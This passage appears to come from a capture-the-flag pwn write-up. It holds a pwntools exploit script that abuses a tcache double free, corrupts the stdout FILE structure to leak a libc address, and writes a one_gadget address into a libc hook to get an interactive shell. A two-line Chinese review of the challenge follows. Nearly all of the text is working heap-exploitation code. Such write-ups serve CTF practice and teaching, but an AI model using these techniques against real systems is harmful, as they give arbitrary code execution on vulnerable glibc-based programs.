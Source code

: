 ```python
add(0x68,'\x20\x17')#3
free(0)
free(0)

add(0x68,'\x60\x35')#4icqf9be91c5a02ae0371b8d1bd5f06d7
add(0x68)#5
add(0x58)#6
free(6)
free(6)

add(0x58,p64(0x602060))
add(0x58)
add(0x58,p64(0)*10)

add(0x68)#0

add(0x68,p64(0xfbad1800)+p64(0)*3+'\x00')#1
p.read(8)
p.read(8)
p.read(8)
base=u64(p.read(8))-(0x7ffff7bad3e0-0x7ffff77d6000)
if base&0xfff!=0:
	p.close()
ADD(0x97,"A")#2
FREE(2)
FREE(2)
#gdb.attach(p)
log.warning(hex(base))
ADD(0x97,p64(0x3dac10+base))
ADD(0x97)
one=0xfdb8e
ADD(0x97,p64(one+base))
c(1)
p.interactive()
```


# Review
题目难度总体不大...
不会逆向  的pwn手不是好pwn手
不会虚拟机 的pwn手不是好pwn手

[1]:https://n132.github.io/2019/03/27/2019-03-27-Relro-Review/
[2]:https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/